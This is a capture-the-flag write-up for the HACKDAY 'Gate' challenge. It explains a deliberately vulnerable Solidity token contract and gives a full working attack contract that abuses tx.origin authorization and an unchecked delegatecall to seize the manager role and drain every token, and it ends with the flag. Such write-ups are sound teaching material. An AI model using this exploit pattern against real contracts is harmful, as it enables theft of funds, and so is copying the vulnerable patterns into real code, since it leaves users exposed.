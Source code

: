 # Gate

> You've got the documents you need. \
> The last thing you need to do before you leave is to mess with the enemy blockchain to paralyze the outpost completely and be able to sneak away in the middle of the general panic. \
> Grab all their cash!

We're given the following contract:

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Overview of the contract

The contract handles an ERC20 token named Diamond or DMD. When created, it gives 1000 DMD to itself. It exposed a `getFirstRedeemerBonus` function to allow anyone to get 5 DMD to begin with, for a maximum of 5 different accounts. Because of this limitation, we can't use this function to empty the initial balance of the contract. \
The important part is the `setExtension`, `callExtension` and `recovery` functions. These functions can only be used by the manager, which is the address of the deployer of the contract, and allow to respectively add an address as an extension, call the extension and change the manager.

## Vulnerabilities

There are two different vulnerabilities in the contract that will allow us to reach our goal:

- the usage of `tx.origin` instead of `msg.sender`
- the delegatecall to an arbitrary address

### tx.origin

The usage of `tx.origin` for authorization is a [big mistake](https://swcregistry.io/docs/SWC-115). If we manage to make the current manager send a transaction to a contract we control, the contract can in turn call the `recovery` function and the `require(tx.origin == manager)` check will be a success.

If you did pay attention to the faucet page, something very important was written...

![](images/faucet.png)

> Useful note: this faucet is also the account used to deploy the contracts.

Now we have our attack path to become the manager! Just create a contract with a fallback function that calls `recovery` with the address we want as the new manager, and ask the faucet to give some money to our attack contract to trigger the execution of the fallback. That's it!

### delegatecall

A delegatecall isn't inherently vulnerable, but when the delegatecall is made to an untrusted address, the callee has [full control](https://swcregistry.io/docs/SWC-112) over the caller contract storage and balance.

Now that we're manager, we can use `setExtension` to update the extension address with our attack contract, and finally use `callExtension` to execute whatever function we want of our attack contract in the context of the Diamond one.

Because our contract will be called via a delegatecall, it will access the Diamond contract storage and functions instead of his own, just as if the code executed in our contract was executed in the Diamond contract.

To steal all the ERC20 tokens, all we have to do now is to call the ERC20 `transfer` function to move all the tokens from the Diamond contract's balance to any other one.

## The exploitation contract

If we put everything together in one single attack contract, we get the following.

```solidity
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "../contracts/Diamond.sol";

contract DiamondAttack {
    Diamond diamond;

    constructor(address _diamond) {
        diamond = Diamond(_diamond);
    }

    fallback() external payable {
        diamond.recovery(address(this));
        diamond.setExtension(address(this));
        diamond.callExtension(abi.encodeWithSignature("steal()"));
    }

    // no need to define the code of these functions because the fact that they are called through a delegatecall will make them execute the functions of the Diamond contract instead
    function transfer(address to, uint256 amount) public returns (bool) {}
    function balanceOf(address account) public returns (uint256) {}

    function steal() public {
        // because this function will be called through a delegate call, the value of address(this) will be the address of the Diamond contract and not of our Attack contract
        bool success = this.transfer(<any address you want>, this.balanceOf(address(this)));
        require(success);
    }
}
```

We just need to create it with the address of the Diamond contract we want to attack, and ask the faucet to give it money to trigger the fallback. The contract will become the new manager, register itself as the extension, and call the `steal` function using the delegatecall so that the function is executed in the context of the Diamond contract and move all the tokens owned by the contract to another address.

Once done, the Diamond contract doesn't have anything left in its balance, as expected.

![](images/balance.png)

We've reached our goal! We can now get the flag by clicking the check button on the challenge page.

![](images/flag.png)

Flag: `HACKDAY{4ll_d14m0nds_succ3ssfully_st0l3n}`